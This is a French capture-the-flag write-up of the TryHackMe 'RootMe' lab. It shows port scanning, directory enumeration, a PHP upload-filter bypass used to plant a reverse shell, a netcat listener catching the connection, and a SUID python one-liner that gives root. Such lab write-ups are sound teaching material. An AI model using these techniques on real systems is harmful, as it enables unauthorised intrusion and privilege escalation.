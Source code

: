 ```yaml
---
title: RootMe
tags: [TryHackMe, Facile, Linux, Apache]
style: border
color: thm
comments: false
description: Exploitation d'un serveur web Apache
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/rrootme>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du serveur Apache](#analyse-du-serveur-apache)
* [Élévation de privilèges](#élévation-de-privilèges)

## Reconnaissance

```bash
nmap -T4 -A rootme.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-12 14:12 CEST
Nmap scan report for rootme.thm (10.10.156.223)
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/12%OT=22%CT=1%CU=42224%PV=Y%DS=2%DC=T%G=Y%TM=670
OS:A67BC%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%T
OS:I=Z%CI=Z%II=I%TS=D)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=
OS:M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4
OS:B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%
OS:DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   31.33 ms 10.9.0.1
2   31.84 ms rootme.thm (10.10.156.223)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.37 seconds
```

Le scan {% include dictionary.html word="NMAP" %} met en lumière la présence de 2 ports ouverts : un serveur {% include dictionary.html word="SSH" %} sur le port 22 et un serveur {% include dictionary.html word="HTTP" %} Apache en version 2.4.29 sur le port 80.

## Analyse du serveur Apache

```bash
gobuster dir -u http://rootme.thm -w /usr/share/wordlists/dirb/common.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
[...expurgé pour brièveté...]
/css                  (Status: 301) [Size: 306] [--> http://rootme.thm/css/]
/index.php            (Status: 200) [Size: 616]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 305] [--> http://rootme.thm/js/]
/panel                (Status: 301) [Size: 308] [--> http://rootme.thm/panel/]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://rootme.thm/uploads/]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

L'outil {% include dictionary.html word="gobuster" %} nous permet d'identifier une page *panel* et une page *uploads*.

Pour l'instant, la page *uploads* est vide, et la page *panel* nous permet de téléverser des fichiers.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_panel.png" caption="Possibilité d'uploader des fichiers" %}

Nous tentons de téléverser une page {% include dictionary.html word="PHP" %} permettant d'obtenir un [*{% include dictionary.html word="reverse-shell" %}*](https://github.com/pentestmonkey/php-reverse-shell), mais sans succès : Il y a un filtrage sur le type de fichiers autorisés.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_interdit.png" caption="Upload de fichiers PHP interdit" %}

Nous utilisons l'outil d'exploitation web **Burp Suite** afin de trouver un contournement possible à la limitation, et nous parvenons à uploader le *{% include dictionary.html word="reverse-shell" %}* en ajoutant un chiffre à la fin de l'extension, indiquant la version de *{% include dictionary.html word="PHP" %}* à utiliser.

Le *{% include dictionary.html word="reverse-shell" %}* proposé par **pentestmonkey** nécessitant une version supérieure à 4, et la version actuelle étant la 8, nous nous sommes contenté de tester les valeurs de 4 à 8.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_intruder.png" caption="Upload de plusieurs versions php avec succès" %}

Nous avons à présent téléverser plusieurs versions de notre *{% include dictionary.html word="reverse-shell" %}*, il ne nous reste plus qu'à préparer un port en écoute avec {% include dictionary.html word="Netcat" %}, puis à nous rendre à la page *uploads* pour vérifier quelle(s) version(s) fonctionne(nt).

La version `php5` nous permet d'obtenir un shell fonctionnel.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.73] from (UNKNOWN) [10.10.117.180] 39092
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:17:38 up 9 min,  0 users,  load average: 0.00, 0.23, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Nous commençons par améliorer notre *reverse-shell* avec la commande suivante :

{% gist ab3c791e25baa7b437d0324f6d3195af %}

Puis nous recherchons le flag utilisateur

```bash
find / -iname user.txt -type f 2>/dev/null
/var/www/user.txt

cat /var/www/user.txt
THM{y[...expurgé...]l}
```

## Élévation de privilèges

Cette épreuve est guidée, et nous sommes invités à trouver un fichier avec des permissions SUID. Ce type de permissions permet à n'importe quel utilisateur d'utiliser un programme avec les privilèges du propriétaire.

{% gist fb795c271652c9004ad77f11be2b66db %}

Nous utiliserons la commande ciblant les SUID (`-perm /4000`)

```bash
find / -user root -perm /4000 -exec ls -ldbh {} \; 2>/dev/null
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 43K Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 27K Jan  8  2020 /bin/umount
```

Il est assez peu courant d'avoir des privilèges aussi élevé sur le binaire **Python**.

Le site [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) nous permet de trouver la commande nécessaire pour élever nos privilèges et devenir root.

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'

bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4#
```

Nous avons à présent les droits root sur la machine, nous pouvons terminer par trouver le flag **root.txt**

```bash
cat /root/root.txt
THM{p[...expurgé...]n}
```
